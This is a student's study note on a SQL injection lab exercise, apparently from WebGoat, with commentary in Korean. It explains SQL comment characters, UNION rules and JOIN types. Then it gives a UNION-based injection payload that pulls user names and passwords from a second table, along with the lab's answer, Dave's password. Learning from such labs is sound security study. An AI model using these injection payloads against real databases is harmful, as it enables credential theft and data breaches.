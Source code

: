 #  SQL Injection (advanced1)

## Goals

- Combining SQL injection Techniques
- Blind SQL injection

## Special Characters

```
/* */			are inline comments
--, #			are line comments

Example: SELECT * FROM users WHERE name = 'admin' --AND pass = 'pass'
```

```
;					allows query chaining
```

```
', +, ||	allows string concatenation
Char()		strings without quotes

Example: SELECT * FROM users WHERE name = '+char(27) OR 1=1
```

세 번째꺼는 처음 본다!

------

## Special Statements

### Union

The Union operator is used, to combine the results of two or more SELECT Statements.

Rules to keep in mind, when working with a UNION:

- **The number of columns selected in each statement** must be the same.

- The datatype of the first column in the first SELECT statement, must match the datatype of the first column in the second(thirs, fourth, ...) SELECT Statement. The Same applies to all other columns.

  (컬럼위치가 같으면 데이터타입도 같아야한다.)

```sql
SELECT first_name FROM user_system_data UNION SELECT login_count FROM user_data;
```

The **UNION ALL** Syntax also allows duplicate Values.

### Joins

The Join operator is used to combine rows from two or more tables, based  on a related column.

두 개 이상의 테이블이나 데이터베이스를 연결하여 데이터를 검색하는 방법.

By using Primary key or Foreign key, you can connect two tables. To connect tables, there are at least one or more columns shared by the tables.

```sql
SELECT * FROM user_data INNER JOIN user_data_tan ON user_data.userid=user_data_tan.userid;
```

#### INNER JOIN

교집합이라고 생각하면 된다. 기준테이블과 Join한 테이블의 **중복된 값**을 보여준다.

결과값은 두 테이블이 모두 가지고 있는 데이터만 검색된다.

```sql
SELECT [테이블 별칭.조회할칼럼] FROM [기준테이블명 별칭] INNER JOIN [조인테이블명 별칭] ON [기준테이블명.기준키] = [조인테이블명.기준키]
```

```sql
--예제--
SELECT
A.NAME, --A테이블의 NAME조회
B.AGE --B테이블의 AGE조회
FROM EX_TABLE A
INNER JOIN JOIN_TABLE B ON A.NO_EMP = B.NO_EMP AND A.DEPT = B.DEPT
```

#### LEFT OUTER JOIN

기준테이블이 왼쪽이 되는 것이다.

```SQL
SELECT A.NAME, B.AGE --A테이블의 name, B테이블의 age 조회
FROM EX_TABLE A --기준테이블: EX_TABLE 별칭: A
LEFT OUTER JOIN JOIN_TABLE B ON A.NO_EMP = B.NO_EMP AND A.DEPT = B.DEPT
```

**기준테이블의 값 +** 조인테이블과 기준테이블의 **중복된 값**을 보여준다.

A를 기준으로 한다면 **A의 모든 데이터와 A와 B의 중복된 값**을 보여준다.

#### RIGHT OUTER JOIN

left outer join의 반대이다.

오른쪽테이블을 기준으로 join을 하겠다는 것이다.

#### FILL OUTER JOIN

쉽게 말해 **합집합**이다. A와 B가 가지고있는 모든 데이터가 검색되므로 사실상 기준테이블의 의미가 없다.

하. 힘들어 이외에도 많은 게 있다고 한다..

------

## Try It! Pulling data from other tables

The input field below is used to get data from a user by their last name.

The table is called 'user_data':

```sql
CREATE TABLE user_data (userid int not null,
                        first_name varchar(20),
                        last_name varchar(20),
                        cc_number varchar(30),
                        cc_type varchar(10),
                        cookie varchar(20),
                        login_count int);
```

너는 실험을 통해서 이 테이블이 sqli에 취약하다는 것을 알아냈다!

이제 너는 또다른 테이블의 내용을 얻기 위한 지식을 써보고싶다. 네가 데이터를 받아오길 원하는 테이블은:

```sql
CREATE TABLE user_system_data (userid int not null primary key,
			                   user_name varchar(12),
			                   password varchar(10),
			                   cookie varchar(30));
```

**a) Retrieve all data from the table**

```sql
1'; SELECT user_name, cc_type FROM user_data UNION SELECT user_name, password FROM user_system_data;--
```

내가 원하는 건 user_system_data의 데이터였고, UNION 을 써보면 좋을 것같은 문제였기 때문에 이렇게 넣었다.

결과는 밑에처럼 나왔다 ㅎㅎ

<img src="./img/sqliAdvancedUnion2.png" width="50%">

**b) When you have figured it out... What is Dave's password?**

내가 last_name과 password를 출력하게 했으니까 위 사진에서 dave를 찾으면 된다. dave의 비밀번호는 `passW0rD` 가 되겠다.ㅎㅎ

<img src="./img/sqliAdvancedUnion1.png" width="50%">

------

